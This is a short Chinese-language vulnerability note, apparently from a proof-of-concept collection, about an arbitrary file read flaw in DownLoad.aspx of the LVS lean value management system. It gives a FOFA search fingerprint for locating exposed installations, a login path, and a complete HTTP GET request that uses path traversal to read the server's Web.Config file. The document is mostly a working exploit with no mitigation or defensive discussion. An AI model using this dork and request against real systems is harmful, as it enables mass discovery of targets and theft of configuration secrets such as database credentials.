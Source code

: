 ## LVS精益价值管理系统DownLoad.aspx存在任意文件读取漏洞



## fofa

```
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```
![image](https://github.com/user-attachments/assets/2c5c2b19-128c-4635-810d-b0783bbe2c44)
/Business/UserLogin.aspx


## poc

```
GET /Business/DownLoad.aspx?p=UploadFile/../Web.Config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

